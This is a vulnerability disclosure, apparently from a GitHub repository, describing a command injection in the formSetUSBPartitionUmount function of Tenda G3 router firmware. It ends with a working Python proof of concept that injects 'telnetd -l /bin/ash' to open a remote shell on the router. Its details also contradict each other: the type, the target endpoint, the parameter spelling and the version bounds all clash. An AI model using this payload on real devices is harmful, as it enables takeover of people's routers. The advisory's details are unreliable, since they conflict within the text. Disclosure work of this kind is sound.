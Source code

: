 # Tenda G3 formSetUSBPartitionUmount
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a command injection in the formSetUSBPartitionUmount function.
### Vulnerability details
Command injection in function formSetUSBPartitionUmount on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetUSBPartitionUmount line 12, it reads in a usbPartionName parameter, and the variable usbPartionName is passed to the doSystemCmd function , which may cause command injection. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetUSBPartitionUmount-1.png)
![](images/formSetUSBPartitionUmount-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/addDhcpRule'
payload = "usbPartitionName=sda1;telnetd -l /bin/ash"

res = requests.post(url=url, data=payload)
print(res.content)
```
